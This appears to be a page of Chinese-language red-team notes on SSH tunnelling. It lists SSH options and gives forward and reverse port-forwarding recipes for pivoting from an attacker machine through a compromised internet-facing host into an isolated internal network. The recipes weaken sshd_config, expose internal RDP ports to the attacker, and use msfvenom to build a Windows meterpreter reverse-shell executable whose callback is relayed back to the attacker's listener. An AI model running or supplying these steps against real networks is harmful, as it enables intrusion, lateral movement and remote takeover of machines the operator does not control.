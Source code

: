 ### **SSH**

  

```
\-C 压缩传输，加快传输速度
-f 在后台对用户名密码进行认证
-N 仅仅只用来转发，不用再弹回一个新的shell -n 后台运行
-q 安静模式，不要显示任何debug信息
-l 指定ssh登录名
-g 允许远程主机连接到本地用于转发的端口
-L 进行本地端口转发
-R 进行远程端口转发
-D 动态转发，即socks代理
-T 禁止分配伪终端
-p 指定远程ssh服务端口

```

  

  

#### **正向转发**

  

```
外网靶机110
内网靶机115
本地攻击机编辑后restart ssh服务
#vim /etc/ssh/sshd\_conf
AllowTcpForwarding yes 允许TCP转发
GatewayPorts yes   允许远程主机连接本地转发的端口
TCPKeepAlive yes    TCP会话保持存活
PasswordAuthentication yes  密码认证
>ssh -C -f -N -g -L 33890:192.168.0.115:3389 root@192.168.0.110 -p 22
本地攻击机执行，本地33890转发到远程的3389端口
上线MSF
攻击机出网Linux靶机--不出网Linux靶机--不出网win机
>msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost=不出网Linux机 lport=12138 -f exe -o /var/www/html/1.exe
攻击机监听端口12345
不出网Linux机
>ssh -C -f -N -g -L 0.0.0.0:12138:攻击机:12345 root@出网Linux主机 -p 22

```

  

  

#### **反向转发**

  

```
外网攻击107
内网靶机97
出网靶机编辑后restart ssh服务
#vim /etc/ssh/sshd\_conf
AllowTcpForwarding yes 允许TCP转发
GatewayPorts yes   允许远程主机连接本地转发的端口
TCPKeepAlive yes    TCP会话保持存活
PasswordAuthentication yes  密码认证
>ssh -C -f -N -g -R 33890:10.1.1.97:3389 root@192.168.0.107 -p 22
出网靶机执行，把外部攻击机33890转发到内部隔离网络的3389
>netstat –tnlp

```
